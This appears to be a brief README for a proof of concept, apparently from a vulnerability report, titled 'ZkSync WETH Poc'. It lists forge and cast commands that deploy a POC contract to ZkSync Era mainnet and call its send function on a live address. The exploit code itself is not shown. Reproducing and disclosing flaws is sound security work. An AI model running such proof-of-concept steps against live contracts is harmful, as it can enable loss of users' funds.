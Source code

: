 ## ZkSync WETH Poc

Steps to reproduce:

1. (Optional) Deploy the contract to ZkSync Era:
   `forge create src/POC.sol:POC --rpc-url https://mainnet.era.zksync.io -i --broadcast --constructor-args 0x5AEa5775959fBC2557Cc8789bC1bf90A239D9a91`

2. Call the contract:

`cast call 0x005C3E358a4029AbA21552c3CeE53E391673753E "send(uint256,address)" 1 0xF7C012789aac54B5E33EA5b88064ca1F1172De05 --value 1 --rpc-url https://mainnet.era.zksync.io --trace`

If you deployed the contract, then replace `0x005C3E358a4029AbA21552c3CeE53E391673753E` with your address

